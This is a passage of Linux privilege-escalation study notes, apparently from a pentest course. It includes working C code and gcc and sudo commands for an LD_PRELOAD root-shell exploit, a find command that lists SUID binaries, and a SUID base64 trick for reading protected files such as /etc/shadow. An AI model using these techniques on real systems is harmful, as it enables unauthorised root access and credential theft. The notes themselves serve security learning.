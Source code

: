 ```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
  
3. Compile it using gcc (GNU Compiler Collection) into a shared object file.

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
4. Run the program with sudo rights and the LD_PRELOAD option pointing to the .so file.
   * `Apache2`, `find`, or almost any of the programs that can be run with sudo can be used.
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
5. This will result in a shell spawn with root privileges.

## Privilege Escalation: SUID
* Linux files can have read, write, and execute permissions.
  * Given to users within their privilege levels.
  * SUID (Set-user Identification) allow files to be executed with permission level of the file owner.
  * SGID (Set-group Identification) allow files to be executed with permission level of the group owner.
    * `s` bit set showing file's special permission level.
* `find / -type f -perm -04000 -ls 2>/dev/null` lists files that have SUID or SGID bits set.
  * Compare executables on this list with [GTFOBins](https://gtfobins.github.io).
  * Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set.
  * Use [this link](https://gtfobins.github.io/#+suid) for pre-filtered list.
    * List shows that `base64` has the SUID bit set.
```
1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```
>SUID

>If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

>This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
```
LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```
* `base64` SUID bit set does not drop the elevated privileges and may be abused to access the file system.
  * `base64` is owned by root.
  * Reading and editing of files at a higher privilege level than the current user is possible.
* Two basic options for privilege escalation.
  * Reading the `/etc/shadow` file.
  * Adding the user to `/etc/passwd`.
